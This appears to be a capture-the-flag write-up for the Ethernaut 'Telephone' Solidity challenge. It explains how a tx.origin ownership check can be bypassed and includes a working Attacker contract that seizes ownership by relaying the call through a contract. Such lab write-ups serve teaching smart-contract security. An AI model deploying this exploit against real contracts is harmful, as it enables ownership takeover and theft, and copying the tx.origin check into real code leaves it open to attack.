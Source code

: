 # Telephone

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Goal

Change the owner of the Telephone smart contract

## Exploit

Similar to the previous Coin Flip CTF, we will again need additional smart contract to complete this challenge, again this contract will be named Attacker

In order to win this challenge we need to change the owner of the contract, and looking into the code we can see that there is chageOwner() function, with some additional requirement. So let's jump to it!

As seen in the code in order to change the owner we first make the following check:

```
  if (tx.origin != msg.sender)
```

What this is checking is if the originator of the transaction is different from the msg.sender (the account from which changeOwner() function is called).
With that in mind, in order to solve the challenge we will need to find a way to "forward" the call to changeOwner() from another smart contract.
Kepp in mind that tx.origin will always be an externally owned account (EOA) and confusing tx.origin with msg.sender can lead to phishing-style attacks.

The steps to reproduce the exploit would be:

1. create Attacker contract, and create instance from the Telephone contract inside the Attacker contract
2. create changeOwnerFromAttacker() external function inside the Attacker contract, inside this function we will call the changeOwner(_owner) function from Telephone smart contract, passing msg.sender as argument for the _owner, this is the part where we are forwarding the call
3. call the changeOwnerFromAttacker() function inside the Attacker contract from our account
4. this will change the owner of the Telephone contract setting our EOA account as the owner

## Attacker contract code

```
contract Attacker {

  address private telephoneContractAddress;

  constructor(address _tel) {
    telephoneContractAddress = _tel;
  }

  function changeOwnerFromAttacker() external {
    (bool success, ) = telephoneContractAddress.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
    require(success, "Transaction failed");
  }
}
```